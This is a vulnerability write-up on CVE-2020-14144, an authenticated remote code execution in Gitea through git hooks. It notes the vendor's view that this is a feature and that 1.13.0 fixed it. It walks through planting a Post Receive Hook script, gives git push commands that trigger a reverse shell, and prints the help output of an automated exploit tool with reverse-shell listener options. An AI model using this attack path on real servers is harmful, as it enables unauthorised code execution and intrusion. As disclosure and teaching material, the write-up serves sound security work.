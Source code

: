 # GiTea - User with git hooks activated

## Requirements

A valid username and password of an account with "May create git hooks" right.

![](./imgs/may_create_git_hooks.png)

## Description

The git hook feature in Gitea 1.1.0 through 1.12.5 might allow for authenticated remote code execution in customer environments where the documentation was not understood (e.g., one viewpoint is that the dangerousness of this feature should be documented immediately above the `ENABLE_GIT_HOOKS` line in the config file). This vulnerability was found by [Niklas Goerke](https://twitter.com/Niklas974) in April 2020.

**NOTE**: The vendor has indicated this is not a vulnerability and states "_This is a functionality of the software that is limited to a very limited subset of accounts. If you give someone the privilege to execute arbitrary code on your server, they can execute arbitrary code on your server. We provide very clear warnings to users around this functionality and what it provides._"

In order to exploit this vulnerability/feature, we need to have a GiTea account with the "_May create git hooks_" rights activated.

A [github issue](https://github.com/go-gitea/gitea/pull/13058) was opened and fixed in version 1.13.0

## Exploitation

In order to successfully exploit this vulnerability/feature, the target server GiTea version should be between version 1.1.0 and version 1.13, and you need a valid account (username, password) with "_May create git hooks_" rights activated.

| **Account with "_May create git hooks_" rights activated** |
|-|
| ![](./may_create_git_hooks.png) |

From a system administration point of view, the gitea process looks like this before the exploitation :

| **Service status before exploit** |
|-|
| ![](./gitea_service_before_exploit.png) |

First of all, we need to create a repository on the GiTea web interface, using our account. We create the repository and we go into `Settings -> Git Hooks -> Post Receive Hook`. In this hook you can write a shell script that will be executed after receiving a new commit.

![Post Receive Hook](./post_receive_hook.png)

Now we will create a temporary directory on our attacking machine, and push to the remote repository. It will trigger the `Post Receive Hook` script.

```sh
touch README.md
git init
git add README.md
git commit -m "Initial commit"
git remote add origin https://vulnserver/testuser/vuln.git
git push -u origin master
```

After we pushed the commit to the remote repository, it will trigger the `Post Receive Hook` script and we will have a reverse shell!

![Reverse Shell](./gitea_reverse_shell.png)

After the exploitation, a system administrator can easily see our detached reverse shell in the child processes of GiTea:

| **Service status after exploit** |
|-|
| ![](./gitea_service_after_exploit.png) |

## Exploit tool

I wrote a tool to automatically exploit this vulnerability [CVE-2020-14144-GiTea-git-hooks-rce](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) :

```
$ ./CVE-2020-14144-GiTea-git-hooks-rce.py -h
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5
     
usage: CVE-2020-14144-GiTea-git-hooks-rce.py [-h] [-v] -t TARGET -u USERNAME -p PASSWORD [-I REV_IP] [-P REV_PORT]
                                             [-f PAYLOAD_FILE]

CVE-2020-14144 - GiTea authenticated Remote Code Execution using git hooks.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Increase verbosity.
  -t TARGET, --target TARGET
                        Target host (http://..., https://... or domain name)
  -u USERNAME, --username USERNAME
                        GiTea username
  -p PASSWORD, --password PASSWORD
                        GiTea password
  -I REV_IP, --rev-ip REV_IP
                        Reverse shell listener IP
  -P REV_PORT, --rev-port REV_PORT
                        Reverse shell listener port
  -f PAYLOAD_FILE, --payload-file PAYLOAD_FILE
                        Path to shell script payload to use.
```

## References
 - https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce
 - https://github.com/go-gitea/gitea/pull/13058